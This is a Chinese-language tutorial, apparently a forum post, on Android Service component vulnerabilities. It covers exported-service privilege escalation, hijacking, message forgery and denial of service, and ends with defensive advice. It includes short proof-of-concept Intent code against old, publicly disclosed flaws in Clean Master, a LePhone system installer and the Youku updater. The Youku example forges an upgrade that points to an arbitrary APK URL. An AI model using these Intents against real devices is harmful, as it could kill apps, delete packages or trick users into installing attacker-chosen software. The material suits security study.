


# Android APP漏洞之战（2）——Service漏洞挖掘详解

[TOC]


## 一、前言

今天总结Android APP漏洞挖掘四大组件中service漏洞挖掘的知识，希望能通过这系列的文章，对Android APP漏洞挖掘进行一个更加深入的了解，Android APP中Service的漏洞挖掘和我们前文讲的Activity漏洞挖掘差不多，所以部分知识可以参考上篇帖子[Android APP漏洞之战（1）——Activity漏洞挖掘详解](https://bbs.pediy.com/thread-269211.htm)。在Service漏洞挖掘中，会逐一列出最基本的漏洞特征，后续会逐步补充相关的漏洞。

## 二、Service漏洞初步介绍

### 1.service基本介绍

#### （1）service的基本作用

Service(服务)是一个一种可以在后台执行长时间运行操作而没有用户界面的应用组件。服务可由其他应用组件启动（如Activity），服务一旦被启动将在后台一直运行，即使启动服务的组件（Activity）已销毁也不受影响。 此外，组件可以绑定到服务，以与之进行交互，甚至是执行进程间通信 (IPC)。

#### （2）service的引入<线程与服务的区别>

```java
（1）Thread是程序执行的最小单元，是分配CPU的基本单位，可以使用Thread来执行一些异步操作
（2）Service是android的一种机制，运行在主线程的main线程上
    
 问题：Thread的运行是独立与Activity的，当一个Activity被finish后，你没有主动停止Thread的话，Thread就会一直执行但是Activity被finish后，你不在持有该Thread的引用，你没有办法在不同的Activity中对同一Thread进行控制？
 解决：你的Thread需要不停的间隔一段时间连接服务器做某种同步，该Thread需要在Activity没有start时候也运行，但是你start一个Activity后，你就不能控制Thread。因此你创建一个Service，在Service里面创建、运行并控制Thread，就可以解决（任何Activity都可以控制同一Service）
    
 总结：Service是一种消息机制，而你可以在任何有 Context 的地方调用 Context.startService、Context.stopService、Context.bindService，Context.unbindService，来控制它，你也可以在 Service 里注册 BroadcastReceiver，在其他地方通过发送broadcast 来控制它，当然这些都是 Thread 做不到的
```

#### （3）service的创建

```java
步骤：
	（1）我们创建一个服务service
	（2）我们重写服务中的三大方法onCreate()、onStartCommand()、onDestroy()
 详解：
（1）OnCreate()方法会在服务创建的时候调用
（2）onStartCommand()方法会在每次服务启动的时候调用
（3）onDestroy()会在服务销毁的时候调用通常我们希望在服务启动立刻执行某个动作，就会在onStartCommand()里
```

#### （4）service的启动


```java
启动方式：
（1）startService：主要用于启动一个服务执行后台任务，不进行通信，而且必须用stopService来结束，不调用会导致Activity结束而Service还运行
（2）bindService：该方法启动的服务还可以进行通信，启动的Service可以由unbindService来结束，也可以在Activity结束之后自动结束
（3）startService 同时也 bindService 启动的服务：停止服务应同时使用stepService与unbindService
```

一般来说我们使用服务，主要分为前面两种

**StartService：**

我们根据Intent的启动方式，又可以通过显式启动和隐式启动

```java
显示启动：
Intent intent = new Intent(this,TestService.class);
startService(intent);
隐式启动：
（1）使用Action启动
Intent intent = new Intent();//Intent intent = new Intent("活动")
intent.setAction("XXX");//service中定义的action
intent.setPackage(getPackageName);需要设置的应用包名
startService(intent);
（2）使用包名启动
Intent intent = new·Intent();
ComponentName componentName = New ComponentName(getPackageName(),"com.example.testservices.TestService");
intent.setComponent(componentName);
startService(intent);
```

**通过bindService启动：**

我们要实现服务或活动之间的通信，我们要使用bind通信机制

```java
原理解析：
	（1）bindService启动的服务和调用者是典型的client-server模式。调用者是client，service是server端。service只有一个，但是绑定到service上的client可以有一个或多个。
	（2）client可以通过IBinder接口获取Service实例，从而实现在client端直接调用Service，实现灵活交互
	（3）bindService启动服务的生命周期与其绑定的client息息相关，当client销毁时，绑定解除，或者使用unbindService()方法解除绑定
```

```java
实现步骤：
	服务端：
	（1）定义一个类继承Service
	（2）在Service的onBind()方法中返回IBinder类型的实例
	（3）在service中创建binder的内部类，加入类似getService()的方法返回Service，这样绑定的client就可以通过getService()方法获得Service实例了
	客户端：
	（1）在Manifest.xml文件中配置该Service
	（2）创建ServiceConnection类型实例，并重写onServiceConnected()方法和onServiceDisconnected()方法
	（3）当执行到onServiceConnected回调时，可通过IBinder实例得到Service实例对象，这样可实现client与Service的连接
	（4）onServiceDisconnected回调被执行时，表示client与Service断开连接，在此可以写一些断开连接后需要做的处理
	（5）通过Intent 启动服务Intent intent = new Intent(this,MyService.class);
	（6）使用Context的bindService(Intent,ServiceConnection,int)方法启动该Service
	（7）不再使用时，调用unbindService(ServiceConnection)方法停止该服务
```

### 2.Service漏洞的种类和危害

Service漏洞的种类大致可以分为：


Service漏洞的危害：

```java
	Service是android四大组件之一，可以长时间的运行在后台。一个组件可以绑定到一个service来进行交互，即使这个交互是进程间通讯也没问题。Service不是分离开的进程，除非其他特殊情况，它不会运行在自己的进程，而是作为运行它的进程的一部分。Service不是线程，意味着它将在主线程里劳作。
	如果一个导出的Service没有做严格的限制，任何应用都可以去启动并绑定到这个Service上，取决于被暴露的功能， 这可以是一个应用去执行未授权的行为，获取敏感信息或污染修改内部应用的状态造成威胁。
```

## 三、Service漏洞原理分析和复现

### 1.权限提升漏洞

#### （1）原理介绍

```java
	当一个service配置了intent-filter默认是被导出的，如果没对调用Service进行权限，限制或者是没有对调用者的身份进行有效验证，那么恶意构造的APP都可以对此Service传入恰当的参数进行调用，导致恶意行为发生比如调用具有system权限的删除卸载服务删除卸载其他应用。
```

#### （2）漏洞复现

案例1：[**猎豹清理大师内存清理权限泄露漏洞**](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-048735)

漏洞描述：

```java
	Android应用程序猎豹清理大师（原金山清理大师）4.0.1及以下版本存在权限泄漏漏洞，泄露的权限为android.permission.RESTART_PACKAGES，用来结束进程来达到清理内存的目的。当没有申请此权限的app向猎豹清理大师发送相应的intent时，便可以结束后台运行的部分app进程。
	猎豹清理大师暴露了com.cleanmaster.appwidget.WidgetService服务组件（详见下图），当向此服务发送action为com.cleanmaster.appwidget.ACTION_FASTCLEAN的intent时，便可结束后台运行的一些app进程。
```


攻击代码：

```java
Intent intent = new Intent();
intent.setAction("com.cleanmaster.appwidget.ACTION_FASTCLEAN");
intent.setPackage("com.cleanmaster.appwidget.WidgetService");
startService(intent);
```

我们通过Intent隐私启动，给服务发送action为com.cleanmaster.appwidget.ACTION_FASTCLEAN的intent时，便可结束后台运行的一些app进程

案例2：[**乐phone手机任意软件包安装删除漏洞**](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2010-0509)

漏洞描述：

```java
	乐phone手机出厂默认包含一个名为jp.aplix.midp.tools的应用包。本应用以system权限运行，并向其他应用提供ApkInstaller服务，用来进行对Apk文件的安装和删除。通过向ApkInstaller服务传递构造好的参数，没有声明任何权限的应用即可达到安装和删除任意Package的行为，对系统安全性产生极大影响。
```

攻击代码：

```java
Intent in = new Intent();
in.setComponent(new ComponentName("jp.aplix.midp.tools","jp.aplix.midp.tools.ApkInstaller"));
in.putExtra("action", "deleteApk");
in.putExtra("pkgName", "xxxxx");
startService(in);
```

我们通过Intent隐式启动，外部服务启动的方式，启动action为deleteApk的服务，来达到删除任意Package的行为

### 2.service劫持

#### （1）原理介绍

```java
攻击原理：隐式启动services,当存在同名services,先安装应用的services优先级高
```



### 3.消息伪造

#### （1）原理介绍

```
暴露的Service对外接收Intent，如果构造恶意的消息放在Intent中传输，被调用的Service接收可能产生安全隐患
```

#### （2）漏洞复现

案例：[**优酷Android 4.5客户端升级漏洞**](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-094635)

漏洞描述：

```java
优酷Android 4.5客户端组件暴露导致第三方应用可以触发其升级过程，同时可以指定升级下载的URL地址，可导致任意应用安装！
源代码：
protected void onHandleIntent(Intent intent) {
        Intent v0;
        String v23;
        Serializable pushMsg = intent.getSerializableExtra("PushMsg");
        ......
        AppVersionManager.getInstance(Youku.context).showAppAgreementDialog();
        switch(pushMsg.type) {
            case 1: {
                goto label_53;
            }
            ......
        }
        ......
    label_53:
        intent.setFlags(876609536);
        intent.setClass(this, UpdateActivity.class);
        intent.putExtra("updateurl", pushMsg.updateurl);
        intent.putExtra("updateversion", pushMsg.updateversion);
        intent.putExtra("updatecontent", pushMsg.updatecontent);
        intent.putExtra("updateType", 2);
        this.startActivity(intent);
        return;
    ......
```

漏洞分析：

```java
我们可以发现从Intent从获取名为PushMsg的Serializable的数据，并根据其成员type来执行不同的流程，当type值为1时，执行App的升级操作。升级所需的相关数据如app的下载地址等也是从该序列化数据中获取。升级的具体流程在com.youku.ui.activity.UpdateActivity中，简单分析后发现升级过程未对下载地址等进行判断，因此可以任意指定该地址。
```

漏洞攻击：

```java
1.创建一个Android App程序，在主Activity中的关键代码如下：


PushMsg pushMsg = new PushMsg();
pushMsg.type = 1;
pushMsg.updateurl = "http://gdown.baidu.com/data/wisegame/41839d1d510870f4/jiecaojingxuan_51.apk";
pushMsg.updatecontent = "This is Fake";
		
Intent intent = new Intent();
intent.setClassName("com.youku.phone","com.youku.service.push.StartActivityService");
intent.putExtra("PushMsg", pushMsg);
startService(intent);

其中PushMsg类不需要完整实现，只需要编译通过即可；
2.反编译优酷客户端的App得到smali代码，从中提取出PushMsg.smali；
3.反编译上述创建的APK文件，将原PushMsg类的smali文件替换为优酷中的PushMsg.smali文件，重新打包签名；
4.安装并运行重打包后的APK，会看到优酷的升级页面触发，如果设计的好的话，是可以诱导用户安装攻击者指定的APK文件的。
```

### 4.拒绝服务攻击

#### （1）原理介绍

```
Service的拒绝服务主要来源于Service启动时对接收的Intent等没有做异常情况下的处理，导致程序崩溃。主要体现在给Service传输的intent或者传输序列化对象导致接收时候的类型传化异常。
```

Service拒绝服务攻击和Activity拒绝服务攻击的原理一样，可以参考我们上篇帖子

#### （2）漏洞复现

案例：[**雪球最新Android客户端存在空指针异常及信息泄露漏洞**](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-048028)

漏洞描述：

```
雪球客户端版本：4.1
adb shell 下执行下面命令，虚拟机将崩溃。愿意在于空指针调用
```

攻击样例：



## 四、Service的安全防护

```java
安全防护：
	（1）私有service不定义intent-filter并且设置exported为false
	（2）公开的service设置exported为true，intent-filter可以定义或者不定义
	（3）合作service需对合作方的app签名做校验
	（4）只被应用本身使用的service应设置为私有
	（5）service接收的数据需要谨慎处理
	（6）内部service需要使用签名级别的protectionLevel来判断是否未内部应用调用
	（7）不应在service创建（onCreate方法被调用）的时候决定是否提供服务，应在onStartCommand/onBind/onHandleIntent等方法被调用时做判断
	（8）当service又返回数据的时候，因判断数据接收app是否又信息泄露的风险
	（9）有明确的服务需调用时使用显示意图
	（10）尽量不发送敏感信息
	（11）启动Activity时不设置intent的FLAG_ACTIVITY_NEW_TASK标签
```

## 五、实验总结

本文对Android APP的service漏洞挖掘做了一个初步的总结，并且对service的工作原理做了一个初步讲解。一些样本漏洞可能比较老，作为初步学习使用，后续会陆续补充一些新的相关漏洞案例，很多service漏洞在android版本升级后，可能不复存在，所以这里只是初步的总结学习记录。

## 六、参考网址

```
Android第一行代码
https://github.com/WooyunDota/DroidDrops
https://segmentfault.com/a/1190000011325759
https://blog.csdn.net/NewActivity/article/details/103243638
https://tech.meituan.com/2017/09/14/android-binde-kcon.html
https://blogs.360.cn/post/android-app%E9%80%9A%E7%94%A8%E5%9E%8B%E6%8B%92%E7%BB%9D%E6%9C%8D%E5%8A%A1%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E6%8A%A5%E5%91%8A.html
```

